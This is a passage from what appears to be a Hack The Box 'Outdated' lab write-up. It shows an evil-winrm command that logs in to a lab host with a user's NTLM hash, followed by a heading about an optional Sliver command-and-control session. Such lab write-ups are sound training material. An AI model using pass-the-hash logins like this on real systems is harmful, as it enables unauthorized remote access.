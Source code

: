 Using evil-winrm to login in the machine

```bash
evil-winrm -i 10.129.229.239 -u sflowers -H 1FCDB1F6015DCB318CC77BB2BDA14DB5
```

![image.png](/assets/Images/HTB_Outdated/image%2018.png)

Sliver Session [Optional]

![image.png](/assets/Images/HTB_Outdated/image%2019.png)
